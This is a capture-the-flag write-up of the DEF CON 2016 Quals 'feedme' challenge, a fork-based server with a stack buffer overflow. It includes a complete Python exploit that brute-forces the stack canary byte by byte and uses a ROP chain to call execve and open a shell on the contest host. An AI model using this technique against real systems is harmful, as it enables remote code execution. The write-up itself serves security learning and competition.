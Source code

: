 ```yaml
---
layout: post
title: DEF CON 2016 Quals - feedme
category: writeup
---
```


feedme is a *baby's first* pwnable task.

The binary is a fork-based server. There is an obvious buffer overflow vulnerability in the child process routine.

```c
int handler()
{
	char buf[32];  // [ebp-0x2c]
	int canary;    // [ebp-0xc]

	printf("FEED ME!\n");
	int size = read_byte();
	readn(buf, size);
	// Shows up to 16 bytes. Cannot leak canary with this.
	printf("ATE %s\n", tohex(buf, size, 16));
	return size;
}

void server()
{
	while (1) {
		int pid = fork();
		if (pid == 0) {
			int n = handler();
			printf("YUM, got %d bytes!", n);
			return;
		}
		else {
			waitpid(pid, &status, 0);
			printf("child exit.\n");
		}
	}
}
```

So we can exploit this program by brute-forcing stack canary and doing ROP to get a shell. Classic.

<!--more-->

```python
import pwnbox
import struct

def dw(x): return struct.pack("<I", x)

#s = pwnbox.pipe.ProcessPipe("./feedme")
s = pwnbox.pipe.SocketPipe("feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me", 4092)

def exp(pay):
    assert len(pay) < 256
    s.read_until("FEED ME!\n")
    s.write(chr(len(pay)))
    s.write(pay)
    s.read_line()
def brute_canary():
    def check_ok(val):
        exp("a"*32 + ''.join(map(chr, val)))
        return "YUM" in s.read_line()
    canary = [0]*4
    pos = 0
    while pos < 4:
        for x in range(256):
            canary[pos] = x
            print canary
            if check_ok(canary[:pos+1]):
                canary[pos] = x
                pos += 1
                break
    return ''.join(map(chr, canary))

canary = brute_canary()

int80 = 0x806fa20
popeax = 0x809e11a # eax ebx esi edi
ppppr = popeax
pppr = ppppr + 1
ppr = ppppr + 2
pr = ppppr + 3
popecx = 0x806f370 # edx ecx ebx
readn = 0x08048E7E # readn(char* buf, int cnt)
puts = 0x0804FC60
free_bss = 0x080EC68C # 20 byte unused bss space.

pay  = "A"*32
pay += canary
pay += "dead" + "beef" + "oebp"

# readn(free_bss, 12)
pay += dw(readn) + dw(ppr) + dw(free_bss) + dw(12)
# puts(free_bss), for debugging.
pay += dw(puts) + dw(pr) + dw(free_bss)
# edx = NULL (envp), ecx = free_bss+8 (argv)
pay += dw(popecx) + dw(0) + dw(free_bss+8) + dw(0xdeadbeef)
# eax = 11 (SYS_EXECVE), ebx = free_bss (filename)
pay += dw(popeax) + dw(11) + dw(free_bss) + dw(0) + dw(0)
pay += dw(int80)
exp(pay)

# 0
# free_bss  <-- free_bss + 8 (argv)
# /sh\0
# /bin      <-- free_bss (filename)
s.write_line("/bin/sh\0" + dw(free_bss))
s.interact()
```

It took some tries to brute-force the canary in time (there was a 150 second alarm)
because the network delay from Korea to US. Luckily, small canary value helped us.


